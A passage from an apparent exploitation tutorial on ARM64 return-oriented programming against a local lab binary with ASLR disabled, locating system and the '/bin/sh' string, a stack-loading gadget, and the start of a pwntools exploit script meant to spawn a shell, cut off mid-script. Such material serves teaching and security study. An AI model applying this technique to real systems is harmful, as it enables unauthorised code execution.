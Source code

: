 Taking a look to the dissembled main function we can see that we would like to **jump** to the instruction to jump to **`printf`** directly, whose offset from where the binary is loaded is **`0x860`**:

<figure><img src="../../../.gitbook/assets/image (1216).png" alt=""><figcaption></figcaption></figure>

### Find system and `/bin/sh` string

As the ASLR is disabled, the addresses are going to be always the same:

<figure><img src="../../../.gitbook/assets/image (1219).png" alt=""><figcaption></figcaption></figure>

### Find Gadgets

We need to have in **`x0`** the address to the string **`/bin/sh`** and call **`system`**.

Using rooper an interesting gadget was found:

```
0x000000000006bdf0: ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret; 
```

This gadget will load `x0` from **`$sp + 0x18`** and then load the addresses x29 and x30 form sp and jump to x30. So with this gadget we can **control the first argument and then jump to system**.

### Exploit

```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000
binsh = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
system = libc.sym["system"]

def expl_bof(payload):
    p.recv()
    p.sendline(payload)

# Ret2main
stack_offset = 108
ldr_x0_ret = p64(libc.address + 0x6bdf0) # ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;
```